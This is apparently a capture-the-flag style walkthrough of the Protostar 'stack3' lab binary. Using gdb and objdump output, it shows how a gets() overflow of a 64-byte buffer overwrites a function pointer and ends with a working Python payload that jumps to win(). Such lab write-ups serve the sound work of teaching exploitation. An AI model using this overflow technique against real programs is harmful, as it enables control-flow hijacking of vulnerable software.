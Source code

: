 ```as
(gdb) disas main
Dump of assembler code for function main:
0x08048438 <main+0>:	push   ebp
0x08048439 <main+1>:	mov    ebp,esp
0x0804843b <main+3>:	and    esp,0xfffffff0
0x0804843e <main+6>:	sub    esp,0x60
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:	lea    eax,[esp+0x1c]
0x0804844d <main+21>:	mov    DWORD PTR [esp],eax
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    eax,0x8048560 ; "calling function pointer, jumping to 0x%08x\n"
0x08048461 <main+41>:	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
```

### `esp+0x5c`
```as
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
...
0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0
```

`esp+0x5c` is some variable that is set to `0x0`. Later we will use it in instruction `main+29` to compare it `0x0`, and if it's equal then jump to `main+63` which leads to `leave` instruction. So we need to modify the variable so that is not `0x0`, and will see what going on in between instruction `main+36` and `main+61`, especially the latter one because that seems promising, it calls to a function, and we can already predict based on the disassemble it self. It will call into whatever we put in our `esp+0x5c` variable.

Doing `$ objdump -d -M intel stack3`, and see the `.text` section above `main()` there will be this particular `win()` function.
```
08048424 <win>:
 8048424:	55                   	push   ebp
 8048425:	89 e5                	mov    ebp,esp
 8048427:	83 ec 18             	sub    esp,0x18
 804842a:	c7 04 24 40 85 04 08 	mov    DWORD PTR [esp],0x8048540
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave  
 8048437:	c3                   	ret    
```
and if we inspect that in gdb
```as
(gdb) x/wx 0x8048540
0x8048540:	0x65646f63
(gdb) x/s 0x8048540
0x8048540:	 "code flow successfully changed"
```
it's something that we must land on for completing this challenge. From the `main()` disassembly, there is no such instruction that will call `win()` function. So this indicates that we can leverage that variable `esp+0x5c` to call that `win()` function, we will modify its value into `win()` address which it nothing but `0x08048424`.

### call `gets()`
We are expected to do buffer over flow, and this is it.

```as
0x08048449 <main+17>:	lea    eax,[esp+0x1c]
0x0804844d <main+21>:	mov    DWORD PTR [esp],eax
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
```
accessing stack at this offset `esp+0x1c` where this will be the starting of 64 bytes buffer, and we are expected to overflow it untill it touch the `esp+0x5c`. At that overflowed variable we place an address `0x08048424` of `win()` function which will helps to call the function. Before that we will see what happend when we give arbitrary value.

```as
(gdb) x/24wx $esp
0xbffff750:	0xbffff76c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x49494949
0xbffff790:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xbffff7a0:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x44434241


<!-- here is one way to determine how many buffer from where to where -->
(gdb) x/wx $esp+0x1c
0xbffff76c:	0x41414141
(gdb) x/wx $esp+0x5c
0xbffff7ac:	0x44434241

(gdb) p/x 0xbffff7ac - 0xbffff76c
$3 = 0x40
(gdb) p 0xbffff7ac - 0xbffff76c
$4 = 64

```

### call `eax`

Now in this instruction:
```
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax
``` 
we will actually call something that is in `eax`, and in that register is `esp+0x5c` which in this case `0x44434241`. So continuing the instruction:

```
eip            0x8048475	0x8048475 <main+61>
(gdb) 
eax            0x44434241	1145258561
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff74c	0xbffff74c
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x44434241	0x44434241
eflags         0x200296	[ PF AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff74c:	0x08048477	0x08048560	0x44434241	0xb7fff8f8
0xbffff75c:	0xb7f0186e	0xb7fd7ff4	0xb7ec6165	0xbffff778
0xbffff76c:	0x41414141	0x42424242	0x43434343	0x44444444
0xbffff77c:	0x45454545	0x46464646	0x47474747	0x48484848
0xbffff78c:	0x49494949	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c
0xbffff79c:	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f	0x50505050
0x44434241:	Error while running hook_stop:
Cannot access memory at address 0x44434241
0x44434241 in ?? ()
(gdb) ni

Program received signal SIGSEGV, Segmentation fault.
eax            0x44434241	1145258561
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff74c	0xbffff74c
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x44434241	0x44434241
eflags         0x210296	[ PF AF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff74c:	0x08048477	0x08048560	0x44434241	0xb7fff8f8
0xbffff75c:	0xb7f0186e	0xb7fd7ff4	0xb7ec6165	0xbffff778
0xbffff76c:	0x41414141	0x42424242	0x43434343	0x44444444
0xbffff77c:	0x45454545	0x46464646	0x47474747	0x48484848
0xbffff78c:	0x49494949	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c
0xbffff79c:	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f	0x50505050
0x44434241:	Error while running hook_stop:
Cannot access memory at address 0x44434241
0x44434241 in ?? ()
```

it's segfault.

### Finally
```
$ python -c "print('A'*64+'\x24\x84\x04\x08')" > /tmp/payload

$ ./stack3 < /tmp/payload 
calling function pointer, jumping to 0x08048424
code flow successfully changed

```

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack3 < /tmp/payload

calling function pointer, jumping to 0x08048424
0x8048475 <main+61>:	call   eax
0x8048477 <main+63>:	leave  
0x8048478 <main+64>:	ret    

Breakpoint 5, 0x08048475 in main (argc=1, argv=0xbffff864) at stack3/stack3.c:22
22	in stack3/stack3.c

(gdb) si
0x8048424 <win>:	push   ebp
0x8048425 <win+1>:	mov    ebp,esp
0x8048427 <win+3>:	sub    esp,0x18
win () at stack3/stack3.c:7
7	in stack3/stack3.c

(gdb) c
Continuing.
0x8048431 <win+13>:	call   0x8048360 <puts@plt>
0x8048436 <win+18>:	leave  
0x8048437 <win+19>:	ret    

Breakpoint 6, 0x08048431 in win () at stack3/stack3.c:8
8	in stack3/stack3.c

(gdb) ni
code flow successfully changed
0x8048436 <win+18>:	leave  
0x8048437 <win+19>:	ret    
0x8048438 <main>:	push   ebp
9	in stack3/stack3.c

```